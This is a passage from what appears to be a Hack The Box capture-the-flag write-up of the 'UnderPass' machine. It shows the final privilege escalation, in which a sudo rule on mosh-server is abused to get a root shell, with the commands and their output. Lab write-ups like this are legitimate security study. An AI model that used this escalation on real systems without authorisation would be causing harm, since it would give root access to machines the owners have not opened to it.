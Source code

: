 ![image.png](HTB%20UnderPass%20Writeup%20166b43b4a03c80cc8cc8f47846c9ed7a/image%205.png)

- Below is a snippet from the article screenshot, outlining the steps for how to connect..

![image.png](HTB%20UnderPass%20Writeup%20166b43b4a03c80cc8cc8f47846c9ed7a/image%206.png)

- After escalating my privileges to root, I was able to capture the `root.txt` flag.

```bash
svcMosh@underpass:/tmp$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 F9X8nyL/nbY5jxd8KUkI5g

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2313]
svcMosh@underpass:/tmp$ MOSH_KEY=F9X8nyL/nbY5jxd8KUkI5g mosh-client 127.0.0.1 60001
[mosh is exiting.]

root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
root@underpass:~# uname -a
Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
root@underpass:~# cat root.txt | wc -c
33
```